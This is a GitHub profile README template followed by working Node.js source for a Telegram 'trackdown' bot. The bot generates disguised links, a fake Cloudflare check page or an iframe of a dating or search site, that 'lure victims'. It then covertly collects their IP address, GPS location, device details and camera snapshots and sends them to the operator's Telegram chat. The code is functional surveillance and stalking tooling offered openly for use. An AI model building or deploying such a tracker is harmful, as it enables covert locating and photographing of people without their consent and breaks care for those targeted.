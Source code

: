 ### Hi there 👋

<!--
**Alosh176/Alosh176** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
//file by »»»»»» @U_8_M - @KHATARCH
const fs = require("fs");
const express = require("express");
var cors = require('cors');
var bodyParser = require('body-parser');
const fetch = require('node-fetch');
const TelegramBot = require('node-telegram-bot-api');
const bot = new TelegramBot(process.env["bot"], {polling: true});
var jsonParser=bodyParser.json({limit:1024*1024*20, type:'application/json'});
var urlencodedParser=bodyParser.urlencoded({ extended:true,limit:1024*1024*20,type:'application/x-www-form-urlencoded' });
const app = express();
app.use(jsonParser);
app.use(urlencodedParser);
app.use(cors());
app.set("view engine", "ejs");
//file by »»»»»» @U_8_M - @KHATARCH
//Modify your URL here
var hostURL="https://trackdown-4.muhamedhaniix.repl.co";
//TOGGLE for Shorters
var use1pt=true;


//file by »»»»»» @U_8_M - @KHATARCH
app.get("/w/:path/:uri",(req,res)=>{
var ip;
var d = new Date();
d=d.toJSON().slice(0,19).replace('T',':');
if (req.headers['x-forwarded-for']) {ip = req.headers['x-forwarded-for'].split(",")[0];} else if (req.connection && req.connection.remoteAddress) {ip = req.connection.remoteAddress;} else {ip = req.ip;}
  
if(req.params.path != null){
res.render("webview",{ip:ip,time:d,url:atob(req.params.uri),uid:req.params.path,a:hostURL,t:use1pt});
} 
else{
res.redirect("https://t.me/khatarch");
}

         //file by »»»»»» @U_8_M - @KHATARCH
                              
});

app.get("/c/:path/:uri",(req,res)=>{
var ip;
var d = new Date();
d=d.toJSON().slice(0,19).replace('T',':');
if (req.headers['x-forwarded-for']) {ip = req.headers['x-forwarded-for'].split(",")[0];} else if (req.connection && req.connection.remoteAddress) {ip = req.connection.remoteAddress;} else {ip = req.ip;}


if(req.params.path != null){
res.render("cloudflare",{ip:ip,time:d,url:atob(req.params.uri),uid:req.params.path,a:hostURL,t:use1pt});
} 
else{
res.redirect("https://t.me/khatarch");
}

         
                              
});
//file by »»»»»» @U_8_M - @KHATARCH


bot.on('message', async (msg) => {
const chatId = msg.chat.id;

 //file by »»»»»» @U_8_M - @KHATARCH

if(msg?.reply_to_message?.text=="🌐 Enter Your URL"){
 createLink(chatId,msg.text); 
}
  
if(msg.text=="/start"){
var m={
reply_markup:JSON.stringify({"inline_keyboard":[[{text:"Create Link",callback_data:"crenew"}]]})
};

bot.sendMessage(chatId, `Welcome ${msg.chat.first_name} ! , \nYou can use this bot to track down people just through a simple link.\nIt can gather informations like location , device info, camera snaps.\n\nType /help for more info.\n BOT BY : @U_8_M - @KHATARCH`,m);
}
else if(msg.text=="/create"){
createNew(chatId);
}
else if(msg.text=="/help"){
bot.sendMessage(chatId,` Through this bot you can track people just by sending a simple link.\n\nSend /create
to begin , afterwards it will ask you for a URL which will be used in iframe to lure victims.\nAfter receiving
the url it will send you 2 links which you can use to track people.
\n\nSpecifications.
\n1. Cloudflare Link: This method will show a cloudflare under attack page to gather informations and afterwards victim will be redirected to destinationed URL.
\n2. Webview Link: This will show a website (ex bing , dating sites etc) using iframe\nBOT BY : @U_8_M - @KHATARCH
`);
}
  //file by »»»»»» @U_8_M - @KHATARCH
  
});

bot.on('callback_query',async function onCallbackQuery(callbackQuery) {
bot.answerCallbackQuery(callbackQuery.id);
if(callbackQuery.data=="crenew"){
createNew(callbackQuery.message.chat.id);
} 
});
bot.on('polling_error', (error) => {
//console.log(error.code); 
});


//file by »»»»»» @U_8_M - @KHATARCH



async function createLink(cid,msg){

var encoded = [...msg].some(char => char.charCodeAt(0) > 127);

if ((msg.toLowerCase().indexOf('http') > -1 || msg.toLowerCase().indexOf('https') > -1 ) && !encoded) {
 
var url=cid.toString(36)+'/'+btoa(msg);
var m={
  reply_markup:JSON.stringify({
    "inline_keyboard":[[{text:"Create new Link",callback_data:"crenew"}]]
  } )
};

var cUrl=`${hostURL}/c/${url}`;
var wUrl=`${hostURL}/w/${url}`;
  //file by »»»»»» @U_8_M - @KHATARCH
bot.sendChatAction(cid,"typing");
if(use1pt){
var x=await fetch(`https://short-link-api.vercel.app/?query=${encodeURIComponent(cUrl)}`).then(res => res.json());
var y=await fetch(`https://short-link-api.vercel.app/?query=${encodeURIComponent(wUrl)}`).then(res => res.json());

var f="",g="";

for(var c in x){
f+=x[c]+"\n";
}

for(var c in y){
g+=y[c]+"\n";
}
  
bot.sendMessage(cid, `New links has been created successfully.You can use any one of the below links.\nURL: ${msg}\n\n✅Your Links\n\n🌐 CloudFlare Page Link\n${f}\n\n🌐 WebView Page Link\n${g}`,m);
}
else{
//file by »»»»»» @U_8_M - @KHATARCH
bot.sendMessage(cid, `New links has been created successfully.\nURL: ${msg}\n\n✅Your Links\n\n🌐 CloudFlare Page Link\n${cUrl}\n\n🌐 WebView Page Link\n${wUrl}`,m);
}
}
else{
bot.sendMessage(cid,`⚠️ Please Enter a valid URL , including http or https.`);
createNew(cid);

}  
}

//file by »»»»»» @U_8_M - @KHATARCH
function createNew(cid){
var mk={
reply_markup:JSON.stringify({"force_reply":true})
};
bot.sendMessage(cid,`🌐 Enter Your URL`,mk);
}




//file by »»»»»» @U_8_M - @KHATARCH
app.get("/", (req, res) => {
var ip;
if (req.headers['x-forwarded-for']) {ip = req.headers['x-forwarded-for'].split(",")[0];} else if (req.connection && req.connection.remoteAddress) {ip = req.connection.remoteAddress;} else {ip = req.ip;}
res.json({"ip":ip});

  
});


app.post("/location",(req,res)=>{

 //file by »»»»»» @U_8_M - @KHATARCH 
var lat=parseFloat(decodeURIComponent(req.body.lat)) || null;
var lon=parseFloat(decodeURIComponent(req.body.lon)) || null;
var uid=decodeURIComponent(req.body.uid) || null;
var acc=decodeURIComponent(req.body.acc) || null;
if(lon != null && lat != null && uid != null && acc != null){

bot.sendLocation(parseInt(uid,36),lat,lon);

bot.sendMessage(parseInt(uid,36),`Latitude: ${lat}\nLongitude: ${lon}\nAccuracy: ${acc} meters`);
  
res.send("Done");
}
});

//file by »»»»»» @U_8_M - @KHATARCH
app.post("/",(req,res)=>{

var uid=decodeURIComponent(req.body.uid) || null;
var data=decodeURIComponent(req.body.data)  || null; 
if( uid != null && data != null){


data=data.replaceAll("<br>","\n");

bot.sendMessage(parseInt(uid,36),data,{parse_mode:"HTML"});

  
res.send("Done");
}
});

//file by »»»»»» @U_8_M - @KHATARCH
app.post("/camsnap",(req,res)=>{
var uid=decodeURIComponent(req.body.uid)  || null;
var img=decodeURIComponent(req.body.img) || null;
  
if( uid != null && img != null){
  
var buffer=Buffer.from(img,'base64');
  
var info={
filename:"camsnap.png",
contentType: 'image/png'
};
//file by »»»»»» @U_8_M - @KHATARCH

try {
bot.sendPhoto(parseInt(uid,36),buffer,{},info);
} catch (error) {
console.log(error);
}


res.send("Done");
 
}

});



app.listen(5000, () => {
console.log("App Running on Port 5000!");
});
//file by »»»»»» @U_8_M - @KHATARCH
